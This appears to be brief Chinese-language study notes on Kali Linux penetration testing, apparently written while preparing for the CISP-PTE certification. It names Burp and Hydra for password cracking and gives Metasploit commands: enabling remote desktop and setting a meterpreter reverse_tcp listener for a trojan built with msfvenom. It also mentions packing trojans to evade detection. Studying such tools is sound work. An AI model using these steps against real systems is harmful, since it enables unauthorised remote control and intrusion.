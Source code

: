 # Kali 学习

网页破解  使用工具 burp

linux 密码暴力破解

hydra 





## metasploit 渗透工具

window  打开远程桌面

run getgui -e 

## msfvenom

1. 使用kali 渗透工具生成远程控制木马
2. 设置监听，监听木马生效反馈
   -  set payload  windows/x86/meterpreter/reverse_tcp
   - set  lhost  IP
   - set lport
   - run



木马脱敏：

加壳： 压缩壳，加密克



## 渗透测试

### 步骤：

#### 1.确定目标 

#### 2.信息收集

​	怎么收集

####  3.漏洞探测  

#### 4.漏洞分析 

#### 5. 漏洞利用 

#### 6.信息整理

####  7.形成报告



## 蜜罐：

1. 怎么设置
2. 





fofa.info 资产工具



### CISP-PTE（中国信息安全测评中心颁证）
